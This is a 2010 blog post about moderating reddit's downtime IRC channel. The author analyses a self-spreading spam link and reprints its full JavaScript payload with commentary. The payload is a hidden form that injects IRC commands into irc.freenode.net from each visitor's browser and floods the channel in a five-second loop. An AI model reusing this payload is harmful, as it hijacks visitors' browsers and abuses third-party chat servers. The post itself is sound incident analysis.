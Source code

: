 ```yaml
--- 
layout: post
title: "Using a browser to piss off IRC users, or, spamming #redditdowntime"
tags: 
- miscellaneous
- software development
nodeid: 262
created: 1264585384
---
```

One of my most favorite sites on the internet, <a id="aptureLink_oItUAC4mad" href="http://www.crunchbase.com/company/reddit">reddit</a>, took [some downtime](http://www.reddit.com/r/announcements/comments/au8tj/reddit_will_be_down_for_maintenance_for_about_two/) this evening while doing some infrastructure (both hardware and software) upgrades. On their down-page, the reddit team invited everybody to join the `#redditdowntime` channel on the <a id="aptureLink_JieW5a5FB1" href="http://twitter.com/freenodestaff">Freenode</a> network, ostensibly to help users pass the time waiting for their pics and <a id="aptureLink_SYNJDA40tz" href="http://www.reddit.com/r/IAmA/">IAMAs</a> to come back online.

Shortly after reddit started their scheduled outage, I joined the channel to pass the time while I debated what I should do with my evening. Within minutes the channel was **flooded** with a number of users, varying between spouting reddit memes in caps. link-spamming or engaging in casual chit-chat. I complained to one of the ops and fairly well-known-to-redditors employee: <a id="aptureLink_dwt02hKbCy" href="http://twitter.com/jedberg">jedberg</a> about the lack of moderation and he nearly instantly gave me `+o` (ops) in the channel. Not one to take my ops duty lightly, I started kicking spammers, warning habitual caps-lock users and tried to keep things generally civil through the deluge of messages consuming the channel. 

Towards the end of the scheduled outage, some automated link-spamming started to appear and once it started it triggered more and more link-spamming. Clearly whatever was behind the <a id="aptureLink_YZZe6EYEsL" href="http://www.crunchbase.com/company/bit-ly">bit.ly</a> link was responsible for the self-propagating nature of the spamming. While the other moderators and myself tried to keep up with banning people I used wget to fetch the destination of the clearly malicious bit.ly URL to determine what we were dealing with. What I found is one of the more clever bits of JavaScript I think I've seen in recent months.

After bringing the site back up for a few minutes, reddit had to take it back down after noticing some problems with the upgrade, so another flood of users filled into the `#redditdowntime` channel and the link-spamming got worse. The most interesting aspect of the JavaScript in the code snippet below is how simple it is, I've commented it up a bit to help explain what's actually going on:

<code type="javascript">
<iframe id="y" name="y" style="display:none"></iframe>

<form method="post" target="y" action="http://irc.freenode.net:6667/" enctype="text/plain" id="f" style="display:none">
    <textarea name="x" id="x"></textarea>
</form>

<script type="text/javascript">
    /* 
     * Generate a random string of characters to use for an IRC nick
     */
    function rnd(){
        var chars="abcdefghijklmnopqrstuvwxyz";
        var r='';
        var length=Math.floor(Math.random()*10+3);
        for (var i=0;i<length;i++){
            var rnum=Math.floor(Math.random() * chars.length);
            r += chars.substring(rnum, rnum+1);
        }
        return r;
    }
    function lol(){
        /* Grab a reference to the textarea */
        var x = document.getElementById('x');
        /* Grab a reference to the form itself */
        var f = document.getElementById('f');
        /* Generate a fake user-name */
        var i = rnd();
        /* Generate a fake nick */
        var n = rnd();

        /* 
         * Build a series of IRC commands into a string:
         *   - Set the username
         *   - Set the nick 
         *   - Join the channel to spam (#redditdowntime)
         *   - Queue up a bunch of PRIVMSG commands to the channel with the spam link
         */
        x.value='\r\nUSER '+i+' 8 * :'+n+'\r\nNICK '+n+'\r\nJOIN #redditdowntime\r\n'+new Array(99).join('PRIVMSG #redditdowntime :http://bit.ly/lolreddit\r\n')+'';

        /* Submit the form, effectively sending the textarea contents to an IRC server */
        f.submit();

        /* Setup a loop for maximum irritation */
        setTimeout(lol, 5000);
    }
    lol();
</script>
<h1>DIGG ROOLZ! REDDIT DROOLZ!</h1></code>
